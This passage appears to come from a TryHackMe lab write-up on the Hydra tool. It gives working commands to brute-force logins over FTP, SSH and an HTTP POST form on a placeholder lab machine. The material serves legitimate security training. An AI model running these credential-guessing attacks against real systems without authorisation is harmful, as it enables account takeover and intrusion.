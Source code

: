 The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

```commandline
hydra -l user -P passlist.txt ftp://<ip-thm-virtual-machine>
```

For the purpose of this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).

### SSH

```commandline
hydra -l <username> -P <full path to pass> <ip-thm-virtual-machine> -t 4 ssh
```

![alt text](images/THM_writeup_hydra_001.png "Hydra commands Screenshot")

### Post Web Form

We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, or simply view the source code.

Below is an example Hydra command to brute force a POST login form:

```commandline
hydra -l <username> -P <wordlist> <ip-thm-virtual-machine> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

You should now have enough information to put this to practise and brute-force yourself credentials to the deployed machine!
